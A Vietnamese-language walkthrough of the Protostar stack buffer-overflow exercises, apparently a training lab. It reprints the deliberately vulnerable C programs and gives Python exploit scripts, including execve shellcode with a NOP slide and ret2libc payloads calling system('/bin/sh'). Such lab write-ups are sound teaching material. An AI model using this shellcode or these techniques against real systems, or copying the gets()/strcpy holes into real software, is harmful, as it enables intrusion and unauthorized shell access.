# Stack
## Lý thuyết
### 1. Stack
Stack là 1 phần của bộ nhớ chính lưu trữ các biến cục bộ khi 1 hàm được thực thi. Stack của 1 hàm được xác định bởi 2 thanh ghi `esp` và `ebp`. Vấn đề ta cần quan tâm là stack thay đổi như thế nào khi gọi hàm.



Return address là địa chỉ trả về sau khi hàm được gọi thực thi xong, giá trị này sẽ được pop ra khỏi stack và gán cho thanh ghi `eip`. Ta có thể khai thác đặc điểm này để thực thi đoạn code mà ta mong muốn.
### 2. Ret2libc
Với kỹ thuật khai thác này, ta sẽ cần ghi đè địa chỉ trả về (return address) bơi địa chỉ của hàm `system()` trong thư viện `libc` và truyền vào tham số `/bin/sh` để thực thi shell.



## Kết quả
### Stack 0
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```
Mục tiêu của bài này là thay đổi giá trị của biên `modified`. Ta thấy rằng biến `modified` và mảng `buffer` sẽ được cấp phát liên tiếp trên stack, trong khi đó hàm `gets()` lại không kiểm soát số lượng ký tự nhập vào cho xâu, do đó chỉ cần nhập vào số lượng ký tự lớn hơn 64 thì sẽ xảy ra lỗi tràn bộ đệm.



Cũng cần lưu ý rắng nếu nhập vào quá nhiều ký tự cũng sẽ ghi đè lên các ngăn nhớ khác trên stack, do đó sẽ xuất hiện thông báo `Segmentation fault`.
### Stack 1
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```
Tương như như stack0, ta thấy hàm `strcpy()` sẽ sao chép xâu `argv[1]` vào `buffer` và cũng không kiểm soát số lượng ký tự.



### Stack 2
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```
Tương tự như 2 bài trên, tuy nhiên có 1 chút khác biệt vì giá trị dạng hex của biến `modified` không thể chuyển sang dạng kí tự có thể nhập từ bàn phím được.



### Stack 3
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```
Mục tiêu là làm tràn biến `buffer` để ghi đè lên giá trị của con trỏ hàm `fp` bởi địa chỉ của hàm `win()`.




### Stack 4
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
Tương tự như stack3, mục tiêu trong bài này vẫn là gọi đến hàm `win()`. Tuy nhiên trong source code đã không còn con trỏ hàm để diều hướng chương trình nữa nên ta phải làm tràn mảng buffer để ghi đè lên return address.



### Stack 5
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
Trong bài này mình không thấy hàm `win()` như những bài trên nữa nên mục tiêu sẽ là lấy được shell của chương trình. Vì vậy ý tưởng sẽ là chèn 1 đoạn shellcode để chạy shell và ghi đè return address bởi địa chỉ của đoạn shellcode đó. Vấn đề còn lại là tìm được vị trí của return address ở trên stack là xong (cái này thì có thể nhập xâu theo bảng chữ cái, mỗi chữ cái xuất hiện 4 lần sau đó xem return address bị ghi đè bởi chữ cái nào, qua đó tính ra offset hoặc là sử dụng gdb debug từ từ, nói chung là thuộc về vấn đề kỹ năng). Mình sẽ sử dụng cách thứ 2:




Có thể thấy return address được lưu ở ngăn nhớ có địa chỉ `0xbffff78c`, vậy theo ý tưởng như trên thì ta sẽ chèn shellcode ở địa chỉ `0xbffff790` và ghi đè return address bởi địa chỉ này. Tuy nhiên khi chạy chương trình bằng gdb và khi chạy bình thường địa chỉ của ngăn nhớ sẽ có 1 chút khác nhau (do kích thước các biến môi trường khác nhau) nên mình sẽ sử dụng lệnh `nop`, sau đó thêm shellcode và điều chỉnh sao cho địa chỉ mình ghi đè sẽ rơi vào khoảng có lệnh `nop` (nop slide)

```py
import struct
buf = '\x90' * 76
new_ret = struct.pack("I", 0xbffff790 + 50)
nop_slide = '\x90' * 100
shellcode = '\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'
print(buf + new_ret + nop_slide + shellcode)
```



### Stack 6
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```
Mục tiêu vẫn là lấy được shell, vì vậy đầu tiên mình sẽ thử làm theo ý tưởng của bài stack5. Ngay lập tức đã xuất hiện vấn đề, đó là tất cả địa chỉ các ngăn nhớ trong stack đều có dạng `0xbf......`



Để ý trong đoạn code mà đề bài cho, ta thấy:



Vì vậy nếu làm theo ý tưởng của stack5, chương trình sẽ thoát ra và báo lỗi. Mình sẽ sử dụng kỹ thuật ret2libc.
Địa chỉ bắt đầu của thư viện `libc`:



Địa chỉ của xâu `"/bin/sh"` trong thư viện `libc` của chương trình đang chạy:




Địa chỉ của hàm `system()`:



Cuối cùng là tìm vị trí của return address để ghi đè (mình sẽ đặt break point tại lệnh `ret` và truyền vào xâu chữ cái như đã giới thiệu ở stack5):



Return address bị ghi đè bởi giá trị hex là `0x75757575` tương ứng với xâu `uuuu`
```py
buf = 'aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrsssstttt'
system = '\xb0\xff\xec\xb7'
ret = '\xfa\x84\x04\x08'
sh = '\xbf\x63\xfb\xb7'
print buf + system + ret+ sh
```



### Stack 7
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```
Tương tự như stack6, tuy nhiên ở bài này ràng buộc về return address lại chặt chẽ hơn khi mà các địa chỉ có dạng `0xb.......` đều làm cho chương trình thoát và báo lỗi. Mình sẽ làm cho chương trình phải thực hiện lệnh `ret` 2 lần, với lần 1 là để qua được ràng buộc của hàm trên và lần 2 sẽ thực hiện lệnh `system("/bin/sh")` để gọi shell. Vậy chỉ cần chèn thêm địa chỉ của lệnh `ret` vào đoạn mã khai thác nữa là xong.



Địa chỉ của lệnh `ret` là `0x08048544`
```py
buf = 'aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrsssstttt'
haha = '\x44\x85\x04\x08'
system = '\xb0\xff\xec\xb7'
ret = '\xfa\x84\x04\x08'
sh = '\xbf\x63\xfb\xb7'
print buf + haha + system + ret+ sh
```
